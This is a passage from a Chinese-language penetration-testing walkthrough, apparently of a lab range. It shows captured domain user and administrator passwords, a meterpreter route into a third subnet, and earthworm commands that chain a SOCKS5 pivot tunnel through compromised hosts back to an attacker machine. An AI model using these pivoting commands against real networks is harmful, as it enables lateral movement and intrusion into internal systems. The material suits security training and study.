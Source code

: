 成功抓取到域用户bunny和域管理员administrator的凭证：

bunny：Bunny2021

administrator：Whoami2021

### 第三层网络渗透

现在第二层网络已经渗透完了，我们继续入侵第三层网络（192.168.93.1/24）。

在第二层网络Windows服务器的meterpreter中添加一个通往192.168.93.1/24网段的路由：

![img](assets/1700555909665-d3d9b02e-97ea-4132-b90a-ad2eca28e215.jpeg)

路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建一个二级socks5代理服务。

首先攻击机上执行如下命令添加一个转接隧道，监听1090端口，并将1090端口收到的代理请求发送给1235端口，执行命令：

./ew_for_linux64 -s lcx_listen -l 1090 -e 1235

然后在第二层网络的Windows服务器上传ew_for_Win.exe，并利用ssocksd方式启动999端口的正向socks代理，执行命令：

ew_for_Win.exe -s ssocksd -l 999

最后，在DMZ区域的Ubuntu 18上传ew_for_linux64并利用lcx_slave方式，将攻击机的1235端口与第二层网络Windows 7的999端口连接起来，执行命令：

./ew_for_linux64 -s lcx_slave -d 192.168.1.7 -e 1235 -f 192.168.52.30 -g 999

![img](assets/1700555909717-12fc6ccb-6f3a-4000-a882-c9a135005fe4.jpeg)
